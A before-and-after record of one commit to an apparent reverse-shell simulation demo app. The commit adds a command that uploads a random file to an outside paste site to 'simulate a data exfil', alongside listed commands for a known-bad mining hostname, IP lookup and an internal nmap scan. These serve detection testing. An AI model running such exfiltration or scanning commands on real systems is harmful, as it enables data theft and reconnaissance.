

Before and after one commit to lacework-community/reverse-shell-simulation-app, a website: page app/ntg-frontend.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
add data exfil example

```diff
--- a/app/ntg-frontend.html
+++ b/app/ntg-frontend.html
@@ -101,6 +101,7 @@
           <!--<li>$ curl github.com/somebadfile</li>-->
           <li>$ curl https://donate.v2.xmrig.com (trigger critical known-bad external hostname alert)</li>
           <li>$ curl ifconfig.me (this will print your remote address)</li>
+          <li>$ dd if=/dev/urandom of=/tmp/test.5mb bs=1024 count=5000 && curl --upload-file /tmp/test.5mb https://paste.c-net.org/ (simulate a data exfil)</li>
           <li>$ hostname</li>
           <li>$ nmap -Pn -sT [cidr from <b>Internal IP info</b>] # no ping (scan all hosts), do full tcp connect instead of SYN only</li>
         </ul>
```
